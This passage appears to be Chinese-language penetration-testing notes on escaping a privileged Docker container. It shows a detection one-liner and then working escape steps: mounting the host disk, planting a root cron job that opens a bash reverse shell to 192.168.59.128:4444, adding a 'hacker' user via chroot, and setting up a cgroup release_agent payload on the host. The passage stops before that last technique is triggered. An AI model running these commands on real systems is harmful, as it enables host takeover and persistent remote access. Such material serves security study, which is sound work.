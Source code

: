 以特权模式启动一个容器

### 检测

```shell
cat /proc/self/status | grep -qi "00000[1,3]fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
```

![image-20240124132243071](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240124132243071.png)

### 利用

```
fdisk -l #查看磁盘文件
root@4e4245eaefd2:/# fdisk -l
Disk /dev/sda: 80.1 GiB, 86000000000 bytes, 167968750 sectors
Disk model: VMware Virtual S
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x4a7def5b

Device     Boot Start       End   Sectors  Size Id Type
/dev/sda1  *     2048 167968749 167966702 80.1G 83 Linux

2.将/dev/sda1挂载到当前容器的目录下，进行写操作
mkdir /test
mount /dev/sda1 /test

3.写入计划任务
echo '* * * * * bash -i >& /dev/tcp/192.168.59.128/4444 0>&1' >> /test/var/spool/cron/root
```

或者通过添加新用户登录

```
mount /dev/sda1 /mnt
chroot /mnt adduser hacker
```

### 骚姿势

```
# 选择一个包含release_agent的cgroup子系统控制器。
cgroup_dir=/sys/fs/cgroup/rdma

# 在其中创建一个子系统test_subsystem。
mkdir -p $cgroup_dir/test_subsystem

# 将test_subsystem子系统中的notify_on_release配置为1。
echo 1 >$cgroup_dir/test_subsystem/notify_on_release

# 从/etc/mtab中提取此路径指向宿主机的挂载点。
host_overlay2_fs_dir=$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab)

# 在容器根目录下创建payload文件并写入执行脚本(Payload)。
echo '#!/bin/sh' > /payload
# 在容器根目录下创建payload文件并写入执行脚本(Payload)。
echo "touch /hacker-privileged" >> /payload
# 给payload增加执行权限。
chmod a+x /payload

# 将host_overlay2_fs_dir与payload目录拼接，目的是在notify_on_release运行时指向容器外的宿主机中的payload文件
echo "$host_overlay2_fs_dir/payload" > $cgroup_dir/release_agent
```